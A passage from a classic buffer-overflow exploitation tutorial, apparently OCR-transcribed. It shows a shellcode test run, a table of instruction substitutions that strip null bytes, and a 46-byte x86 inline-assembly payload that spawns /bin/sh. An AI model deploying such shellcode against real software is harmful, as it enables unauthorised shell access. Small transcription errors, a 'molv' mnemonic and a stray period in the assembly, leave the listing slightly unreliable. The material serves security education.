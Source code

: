 </PRE>
```shell
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
```
<PRE>

   It works! But there is an obstacle.  In most cases we'll be trying to
overflow a character buffer.  As such any null bytes in our shellcode will be
considered the end of the string, and the copy will be terminated.  There must
be no null bytes in the shellcode for the exploit to work.  Let's try to
eliminate the bytes (and at the same time make it smaller).

           Problem instruction:                 Substitute with:
           --------------------------------------------------------
           movb   $0x0,0x7(%esi)                xorl   %eax,%eax
           molv   $0x0,0xc(%esi)                movb   %eax,0x7(%esi)
                                                movl   %eax,0xc(%esi)
           --------------------------------------------------------
           movl   $0xb,%eax                     movb   $0xb,%al
           --------------------------------------------------------
           movl   $0x1, %eax                    xorl   %ebx,%ebx
           movl   $0x0, %ebx                    movl   %ebx,%eax
                                                inc    %eax
           --------------------------------------------------------

   Our improved code:

shellcodeasm2.c
</PRE>
```nasm
void main() {
__asm__("
        jmp    0x1f                     # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        xorl   %eax,%eax                # 2 bytes
        movb   %eax,0x7(%esi).          # 3 bytes
        movl   %eax,0xc(%esi)           # 3 bytes
        movb   $0xb,%al                 # 2 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        xorl   %ebx,%ebx                # 2 bytes
        movl   %ebx,%eax                # 2 bytes
        inc    %eax                     # 1 bytes
        int    $0x80                    # 2 bytes
        call   -0x24                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
                                        # 46 bytes total
");
}
```
<PRE>
